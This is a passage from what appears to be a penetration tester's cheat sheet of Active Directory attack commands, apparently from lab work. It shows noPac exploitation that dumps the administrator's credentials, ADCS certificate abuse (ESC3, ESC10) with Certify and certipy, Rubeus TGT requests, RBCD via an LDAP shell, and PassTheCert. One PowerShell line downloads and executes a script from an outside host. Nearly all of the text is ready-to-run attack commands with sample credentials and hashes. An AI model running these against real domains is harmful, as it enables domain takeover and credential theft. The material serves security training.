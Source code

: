 ```bash
python3 noPac.py htb.local/svc_test:testpass -dc-ip 172.16.5.5  -dc-host DC01 --impersonate administrator -use-ldap -dump -just-dc-user htb.local/administrator
```

### ADCS
```bash
# find service
nxc ldap 172.16.117.0/24 -u  -p '' -M adcs
```

https://github.com/secure-77/Certipy-Docker
```powershell
# Cert request
## Certify.exe
.\Certify.exe find /vulnerable
.\Certify.exe request /ca:<CA Name> /template:<Template Name> /altname:Administrator

openssl pkcs12 -in cert.pem -inkey priv.key -keyex -CSP "Microsoft Enhanced
Cryptographic Provider v1.0" -export -out admin.pfx

##certipy
### docker build -t certipy:latest .
### docker run -it -v $(pwd):/tmp certipy:latest certipy find -dc-ip 192.168.210.30 -u 'jodie.summers@nara-security.com' -p hHO_S9gff7ehXw -vulnerable -debug -stdout
certipy find -dc-ip 10.10.11.69 -u 'ca_svc@fluffy.htb' -hashes aaaaaaaaa -vulnerable -stdout
# ntpdate dc-ip
certipy req -u 'user' -p Password -ca CA_Name -dc-ip DCIP -template TempName -upn
'Administrator@example.com' -debug

## ESC 3
certipy req -u 'own_user' -p 'Password' -ca CA_Name -template User -on-behalf-of 'lab\administrator' -pfx own_user.pfx -dc-ip 10.129.228.236

# TGT request
## Rubeus
.\Rubeus.exe asktgt /user:Administrator /certificate:admin.pfx /getcredentials /password:
## certipy
certipy auth -pfx administrator.pfx -dc-ip <dc-ip> -debug


# ESC 10
certipy account update -u 'user' -p 'Password' -user own_user -upn 'lab-dc$@lab.local' -dc-ip 10.129.228.236
certipy req -u 'own_user' -hashes ee22ddf0f8a66db4217050e6a948f9d6 -ca CA_Name -template User -dc-ip 10.129.228.236
certipy account update -u 'user' -p 'Password' -user own_user -upn 'user2@lab.local' -dc-ip 10.129.228.236
## ldap_shell for RBCD
certipy auth -pfx lab-dc.pfx -dc-ip 10.129.228.236 -ldap-shell
add_computer plaintext plaintext123
set_rbcd lab-dc$ plaintext$
## RBCD
impacket-getST -spn cifs/LAB-DC.LAB.LOCAL -impersonate Administrator -dc-ip 10.129.228.236 lab.local/'plaintext$':plaintext123
```
#### PassTheCert
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/PowerView.ps1')

wget https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x86/PassTheCert.exe

.\PassTheCert.exe --server <server-ip or fqdn> --cert-path <pfx-path> --add-computer --computer-name <Computer Name>
Get-DomainComputer authority
```